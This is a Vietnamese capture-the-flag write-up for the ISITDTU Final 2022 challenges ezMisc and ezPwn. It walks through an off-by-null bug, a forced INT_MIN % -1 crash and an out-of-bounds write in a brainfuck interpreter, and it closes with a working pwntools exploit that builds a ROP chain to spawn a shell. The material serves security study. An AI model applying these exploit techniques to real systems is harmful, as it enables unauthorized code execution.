


Writeup ezMisc và ezPwn giải ISITDTU Final 2022

## ezMisc

Nhìn vào hàm main có thể thấy:

```c
__int64 __fastcall main(int a1, char **a2, char **a3)
{
  __int64 result; // rax
  __WAIT_STATUS stat_loc; // [rsp+8h] [rbp-18h] BYREF
  _DWORD *v5; // [rsp+10h] [rbp-10h]
  unsigned __int64 v6; // [rsp+18h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  alarm(0x3Cu);
  setbuf(stdin, 0LL);
  setbuf(stdout, 0LL);
  v5 = mmap(0LL, 0x108uLL, 3, 33, -1, 0LL);
  if ( v5 )
  {
    v5[64] = 1;
    while ( !v5[65] )
    {
      HIDWORD(stat_loc.__iptr) = fork();
      if ( !HIDWORD(stat_loc.__iptr) )
        return mainloop((__int64)v5); // đã được đổi tên
      wait((__WAIT_STATUS)&stat_loc);
    }
    result = 0LL;
  }
  else
  {
    perror("mmap");
    result = 1LL;
  }
  return result;
}
```

- Chương trình cho ta một vùng bộ nhớ được mmap được gán cho v5

- `v5[64]` được set giá trị 1.

- Có một vòng lặp với điều kiện `v5[65] == 0` (cho đến hiện tại thì điều kiện này luôn đúng) trong đó:

    * spawn ra một child process bằng fork(), process con đó sẽ thực thi hàm mà mình sẽ tạm gọi là mainloop()

    * parent process sẽ đợi đến khi child process kết thúc vòng đời.

Xem thử nội dung của mainloop:

```c
__int64 __fastcall mainloop(__int64 a1)
{
  int v1; // eax

  while ( !*(_DWORD *)(a1 + 260) )
  {
    loop_init_func(a1); // đã được đổi tên
    menu(); // đã được đổi tên
    v1 = read_int(); // đã được đổi tên
    if ( v1 == 3 )
    {
      option_3(a1); // đã được đổi tên
    }
    else
    {
      if ( v1 > 3 )
        goto LABEL_10;
      if ( v1 == 1 )
      {
        option_1(a1); // đã được đổi tên
      }
      else if ( v1 == 2 )
      {
        option_2(a1); // đã được đổi tên
      }
      else
      {
LABEL_10:
        puts("Invalid choice");
      }
    }
  }
  return 0LL;
}
```

- Vòng lặp có điều kiện `*(a1+260)==0`, điều kiện này tương đương với `v5[65] == 0`.

- Hàm loop_init_func:

    ```c
    void *__fastcall loop_init_func(void *a1)
    {
    if ( !dword_4840 )
    {
        memcpy(&unk_4860, a1, 0x108uLL);
        dword_4840 = 1;
    }
    return memcpy(a1, &unk_4860, 0x108uLL);
    }
    ```

    * Lần chạy đầu tiên: copy `0x108` byte data từ `a1` vào vùng bộ nhớ `unk_4860` rồi copy ngược lại từ vùng bộ nhớ `unk_4860` vào `a1` - chức năng là để lưu giữ trạng thái của `a1` trước khi bắt đầu chạy các chương trình khác.

    * Những lần chạy sau: copy `0x108` byte data từ vùng bộ nhớ `unk_4860` vào `a1` - chức năng là để reset lại trạng thái của `a1` về trạng thái gốc.

- Chương trình cho ta 3 option, nhưng hiện tại chỉ sử dụng được option 1, vì option 2 và option 3 cần phải thỏa mãn điều kiện `*(a1+256)==0` thì ta mới có quyền sử dụng.

Option 1 hiện tại là option duy nhất mà ta access được, vậy ta sẽ xem nó làm gì trước.

```c
int __fastcall option_1(char *a1)
{
  const char *v1; // rax
  unsigned int v3; // [rsp+1Ch] [rbp-14h]
  int i; // [rsp+20h] [rbp-10h]
  int v5; // [rsp+24h] [rbp-Ch]
  int v6; // [rsp+28h] [rbp-8h]
  int v7; // [rsp+2Ch] [rbp-4h]

  v3 = 0;
  *a1 = 0;
  printf("Enter your string: ");
  v1 = (const char *)((__int64 (*)(void))((char *)&sub_1348 + 1))(); // hàm để đọc input
  strncat(a1, v1, 0x100uLL);
  v5 = strlen(a1);
  printf("Enter first magic number: ");
  v6 = read_int();
  printf("Enter second magic number: ");
  v7 = read_int();
  if ( !v7 )
    return puts("Second magic number cannot be zero!");
  for ( i = 0; i < v5; ++i )
    v3 = ((int)(v6 * v3) % v7 + v6 * a1[i] % v7) % v7;
  return printf("Your score: %d\n", v3);
}
```

Kiểm tra hàm mình tạm đặt là option_1:

- `((char *)&sub_1348 + 1))();` là call đến hàm mình tạm đặt là read_data, hàm read_data đọc `0x7ff` byte bắt đầu từ vùng bộ nhớ `byte_4040`

```c
_BYTE *read_data()
{
  unsigned int i; // [rsp-Ch] [rbp-Ch]

  for ( i = 0; i <= 0x7FE; ++i )
  {
    if ( read(0, &byte_4040[i], 1uLL) != 1 )
    {
      perror("read");
      exit(1);
    }
    if ( byte_4040[i] == 10 )
      break;
  }
  byte_4040[i] = 0;
  return byte_4040;
}
```

- Ta thấy có bug off-by-null xuất hiện tại `strncat(a1, v1, 0x100uLL);`, khi `strncat` sử dụng `0x100` byte thì sẽ append thêm một null-byte vào cuối, như vậy `*(a1+256)` hay `v5[64]` lúc này sẽ bị null-byte overwrite và mang giá trị là 0 chứ không phải là 1 như ban đầu nữa. Như vậy là ta sẽ có thể sử dụng `option_2` và `option_3`?

Hãy nhớ lại hàm `loop_init_func` vào lần chạy đầu tiên đã lưu lại trạng thái gốc của `a1`, bây giờ sau khi return từ hàm option_1 thì `loop_init_func` sẽ reset lại trạng thái của `a1` về trạng thái gốc, và bug off-by-null của ta sẽ trở nên vô dụng. Vậy ta phải gây crash child process ngay trong hàm `option_1` để chương trình fork() lại một process con mới và khi đó `loop_init_func` khi chạy lần đầu tiên sẽ lưu lại trạng thái `a1` mà ta đã chỉnh sửa bằng bug off-by-null.

Vậy bây giờ phải tìm cách gây crash child process ngay trong hàm `option_1`.

```c
for ( i = 0; i < v5; ++i )
    v3 = ((int)(v6 * v3) % v7 + v6 * a1[i] % v7) % v7;
```

Để ý tại đây thì chương trình có sử dụng các phép modulo (idiv instruction) và ta kiểm soát được các parameter `v6`, `v7` và `a1[i]`. Mình set giá trị của các tham số sao cho phương trình trên có dạng kết quả là `-2147483648 % -1`. Khi đó sẽ xảy ra [arithmetic exception](https://stackoverflow.com/questions/14097924/arithmetic-exception-in-gdb-but-im-not-dividing-by-zero), cũng là một loại gây ra fault khiến child process crash. Và bây giờ ta đã có thể sử dụng `option_2` và `option_3`.

P/s: ban đầu không để ý đến phương trình trên khiến mình cứ tìm cách gửi ctrl-D qua để trong hàm `read_data` gọi `exit`, nhưng thất bại toàn tập =))

`option_2` là để in flag của ezMisc.

## ezPwn

Tiếp đến với ezPwn, sau khi đã unlock được chức năng `option_3`.

```c
unsigned __int64 __fastcall option_3(__int64 a1)
{
  int v1; // eax
  int v3; // [rsp+14h] [rbp-ACh]
  _BYTE *i; // [rsp+18h] [rbp-A8h]
  _BYTE *j; // [rsp+20h] [rbp-A0h]
  __int64 v6; // [rsp+28h] [rbp-98h]
  char s[136]; // [rsp+30h] [rbp-90h] BYREF
  unsigned __int64 v8; // [rsp+B8h] [rbp-8h]

  v8 = __readfsqword(0x28u);
  v3 = 0;
  if ( *(_DWORD *)(a1 + 256) )
  {
    puts("Access denied");
  }
  else
  {
    *(_DWORD *)(a1 + 260) = 1;
    memset(s, 0, 0x80uLL);
    printf("Enter source code: ");
    v6 = ((__int64 (*)(void))((char *)&sub_1348 + 1))();
    for ( i = (_BYTE *)v6; *i; ++i )
    {
      if ( *i != 60 && *i != 62 && *i != 43 && *i != 45 )
      {
        puts("Invalid program");
        return v8 - __readfsqword(0x28u);
      }
    }
    for ( j = (_BYTE *)v6; *j; ++j )
    {
      v1 = (char)*j;
      if ( v1 == 62 )
      {
        ++v3;
      }
      else if ( v1 <= 62 )
      {
        if ( v1 == 60 )
        {
          --v3;
        }
        else if ( v1 <= 60 )
        {
          if ( v1 == 43 )
          {
            ++s[v3];
          }
          else if ( v1 == 45 )
          {
            --s[v3];
          }
        }
      }
    }
  }
  return v8 - __readfsqword(0x28u);
}
```

Nhìn sơ qua thì nhận ra đây là brainfuck interpreter, nhưng bị bug OOB khá lộ liễu. Vậy mình chỉ cần sửa lại return address đến tạo thành ROPchain. Vấn đề ở đây chỉ là tìm gadget nào cho đúng để sử dụng, vì chương trình có PIE và Libc hiện tại cũng chưa được leak.



Nhìn vào trạng thái stack ở đây ta có thể thấy tại `0x7ffe58129678` và `0x7ffe581296a0` chứa địa chỉ `0x7fafa5b7f000`, `0x7fafa5b7f000` nằm ở vị trí tuyến tính với địa chỉ của Libc, vì vậy có thể thực hiện các phép cộng trừ "byte-by-byte" để tạo ra các gadget hữu ích, còn địa chỉ `__libc_start_call_main+128` mình sẽ sửa thành one_gadget.

Ở đây thì mình tìm thấy một vài gadget hữu dụng có thể thỏa mãn điều kiện của one_gadget với stack layout hiện tại:

```
0x50a37 posix_spawn(rsp+0x1c, "/bin/sh", 0, rbp, rsp+0x60, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL
  rbp == NULL || (u16)[rbp] == NULL

0x000000000010d56c : pop rcx ; pop rbx ; xor eax, eax ; pop rbp ; pop r12 ; ret

0x0000000000090529 : pop rdx ; pop rbx ; ret
```

Còn với return address mình sẽ sửa thành gadget `0x0000000000001016 : add rsp, 8 ; ret` để có thể return vào các gadget libc mà mình chuẩn bị sẵn.

Mình khá chắc đây không phải là intended solution. Bởi vì để thực hiện thì cách này có xác suất là 1/? tùy thuộc vào base của libc và base của binary, đôi khi các phép cộng hay trừ sẽ bị nhớ 1 hay trừ một vào đơn vị số liền kề bên trái khiến cho địa chỉ gadget sẽ sai.

Đây là script solve cho 2 bài trên của mình:

```python
from pwn import *

io = process('./game')
#gdb.attach(io, gdbscript='''
#        handle SIGALRM ignore
#        set follow-fork-mode parent
#        b memset
#        ''')
#io = remote('20.121.188.64', 31337)

io.sendline(b'1')
io.sendline(b'\x01'+b'A'*300)
io.sendline(b'-2147483648')
#pause()
io.sendline(b'-1')
io.sendline(b'3')

pl = b'>'*152
pl += b'-'*0x30
pl += b'>'
pl += b'-'*0x8
pl += b'>'*7
pl += b'>'*8

pl += b'-'*0x94
pl += b'>'
pl += b'-'*0x7b
pl += b'>'
pl += b'-'*0x16
pl += b'>'*6

pl += b'+'*0x10
pl += b'>'*8

pl += b'>'*8*3

pl += b'-'*0xd7
pl += b'>'
pl += b'-'*0x4b
pl += b'>'
pl += b'-'*0x1e
pl += b'>'*6

pl += b'>'*8*2

pl += b'-'*0x59
pl += b'>'
pl += b'+'*0x6d
pl += b'>'
pl += b'+'*0x2

io.sendline(pl)
io.interactive()
```

